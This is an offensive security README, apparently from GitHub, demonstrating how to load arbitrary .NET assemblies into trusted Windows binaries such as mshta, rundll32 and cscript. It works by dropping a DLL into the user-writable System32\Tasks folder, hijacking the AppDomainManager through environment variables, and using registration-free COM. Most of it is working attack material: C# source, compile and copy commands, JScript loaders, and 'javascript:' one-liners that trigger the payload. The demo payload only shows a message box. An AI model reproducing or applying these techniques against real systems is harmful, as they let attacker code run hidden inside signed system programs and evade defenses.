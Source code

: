 # DotNetInjections
Loading Assemblies Into Processes, the All Natural Organic way


## Executing Arbitrary Assemblies In The Context Of Windows Script Hosts

Issue.

By locating an arbitrary assembly in C:\Windows\System32\Tasks or C:\Windows\SysWOW64\Tasks we can load or influence any script hosts or ANY .NET Application in System32.

Other writable folders may include fxstmp

The best candidate for placement, will be a folder below the app you are running, so, system32 may not be writable, but a folder that matches an
assembly name you have control over , that is , writable will be a good candiate.

For example, cscript, wscript, regsvr32, mshta, eventvwr 

This is a design pattern fully supported and documented in the CLR.

As described in [How the Runtime Locates Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/deployment/how-the-runtime-locates-assemblies), we can see that probing of the application base can be influenced.

```
The runtime always begins probing in the application's base, which can be either a URL or the application's root directory on a computer. If the referenced assembly is not found in the application base and no culture information is provided, the runtime searches any subdirectories with the assembly name. The directories probed include:

[application base] / [assembly name].dll

[application base] / [assembly name] / [assembly name].dll
```

If we are trying to load a custom assembly into say, `mshta.exe`, we can take advantage of the fact that C:\Windows\System32\Tasks is a globally writable path. We simply place an assembly named `tasks.dll` into either 
`C:\Windows\System32\Tasks` or `C:\Windows\SysWow64\Tasks`.

There are several implications to this. Let me describe two and provide PoC scripts and binaries to demonstrate.

1. We can leverage the environment variables that setup custom Application Domains, 
    https://blogs.msdn.microsoft.com/shawnfa/2005/07/21/setting-up-an-appdomainmanager/

Example:
tasks.cs or fxstmp.cs  
```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;


public sealed class MyAppDomainManager : AppDomainManager
{
  
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		System.Windows.Forms.MessageBox.Show("AppDomain - KaBoom!");
		// You have more control here than I am demonstrating. For example, you can set ApplicationBase, 
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll


*/

```

Trigger the Payload with a simple one-liner
```

mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();

```



tasks.js

```
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

```

In addition to leveraging the AppDomainMangers to load our assemblies, we can leverage Registration-Free COM to load and create objects.

Putting this together, we can see a complete .NET Assembly that demonstrates both capabilities.

tasks.cs or fxstmp etc...
```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;

using System.IO;
using System.Reflection;
using System.Runtime.Hosting;


public sealed class MyAppDomainManager : AppDomainManager
{
  
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		System.Windows.Forms.MessageBox.Show("AppDomain - KaBoom!");
		// You have more control here than I am demonstrating. For example, you can set ApplicationBase, 
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll

Simple One-Liner Triggers.
mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();



*/


namespace MyDLL
{
	 
	 [ComVisible(true)]
	 [Guid("31D2B969-7608-426E-9D8E-A09FC9A5ACDC")]
	 [ClassInterface(ClassInterfaceType.None)]
	 [ProgId("MyDLL.Operations")]
	 public class Operations
	 {
		 
		 public Operations()
		 {
			 Console.WriteLine("So It Begins");
		 }
		 
		 [ComVisible(true)]
		 public string getValue1(string sParameter)
		 {
			 switch (sParameter)
			 {
				 case "a":
				 return "A was chosen";

				 case "b":
				 return "B was chosen";

				 case "c":
				 return "C was chosen";

				 default:
				 return "Other";
			}
		}
		 
		 [ComVisible(true)]
		 public string getValue2()
		 {
			return "From VBS String Function";
		 }
		 
		  [ComVisible(true)]
		 public void getValue3()
		 {
					System.Windows.Forms.MessageBox.Show("Hey From My Assembly");

		 }
		 
	 }
}
```


tasks.js
```
// var manifest string should be UTF-16
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

// Ideally, we create a DLL, drop it anywhere and load it like DynamicWrapper...

// Loads Assembly, but expects it in the C:\Windows\System32 for example for managed code...
// Good news, CLR tries to resolve in sub dir with name of app.  
// Since C:\Windows\system32\tasks is user writable... :) CLR finds and loads our assembly.


var manifest = '<?xml version="1.0" encoding="UTF-16" standalone="yes"?><assembly manifestVersion="1.0" xmlns="urn:schemas-microsoft-com:asm.v1" xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"><assemblyIdentity name="tasks" type="win32" version="0.0.0.0" /><description>Built with love by Casey Smith @subTee </description><clrClass   name="MyDLL.Operations"   clsid="{31D2B969-7608-426E-9D8E-A09FC9A5ACDC}"   progid="MyDLL.Operations"   runtimeVersion="v4.0.30319"   threadingModel="Both" /><file name="tasks.dll"> </file></assembly>';

var ax = new ActiveXObject("Microsoft.Windows.ActCtx");

ax.ManifestText = manifest;

var dwx = ax.CreateObject("MyDLL.Operations");
//WScript.StdOut.WriteLine(dwx.getValue1("a"));
//WScript.StdOut.WriteLine(dwx.getValue2());
dwx.getValue3() //Trigger Message Box
```

Trigger with cscript.exe tasks.js
Observe Assemmbly execution from AppDomain initialization as well as calling into a method in our custom class
